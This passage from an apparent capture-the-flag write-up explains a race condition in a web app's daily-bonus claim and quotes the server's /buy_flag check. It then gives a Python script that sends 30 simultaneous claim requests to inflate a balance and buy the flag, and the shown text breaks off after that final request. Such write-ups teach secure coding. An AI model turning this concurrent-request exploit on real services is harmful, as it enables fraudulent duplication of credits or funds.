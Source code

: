    The critical issue is that the check and update operations are not performed atomically. There's a time window between checking if a user has claimed the bonus and marking it as claimed, allowing multiple simultaneous requests to pass the check before any single request updates the database.

3. **Flag Access**: The `/buy_flag` endpoint verifies a user's balance before providing the flag:
   ```js
   if row and row['balance'] >= 3000:
       db.execute('UPDATE users SET balance = balance - 3000 WHERE username=?', (username,))
       db.commit()
       flash("Reward redeemed!", "success")
       return render_template('flag.html')
```

### ==2.4 Exploitation==
#### ==Final Payload==
We developed a Python script to exploit the race condition vulnerability:
```python
import requests
import threading
import re
import time

url = "http://159.69.219.192:7859/"

username = f"test{int(time.time())}" 
session = requests.Session()
register_resp = session.post(f"{url}/register", data={"username": username})
print(f"Registered as: {username}")

def claim_bonus():
    try:
        resp = session.post(f"{url}/claim")
        if "Daily bonus collected" in resp.text:
            print("Successfully claimed bonus!")
        elif "already claimed" in resp.text:
            print("Claim blocked - already claimed")
    except Exception as e:
        print(f"Error: {str(e)}")

threads = []
num_threads = 30 

print(f"Launching {num_threads} simultaneous claim attempts...")
for i in range(num_threads):
    t = threading.Thread(target=claim_bonus)
    threads.append(t)

for t in threads:
    t.start()

for t in threads:
    t.join()

dashboard_resp = session.get(f"{url}/dashboard")
balance_match = re.search(r'Your current balance: <strong>\$(\d+)</strong>', dashboard_resp.text)

if balance_match:
    balance = int(balance_match.group(1))
    print(f"Current balance: ${balance}")
    
    if balance >= 3000:
        print("Balance sufficient! Buying flag...")
        flag_resp = session.post(f"{url}/buy_flag")
        
```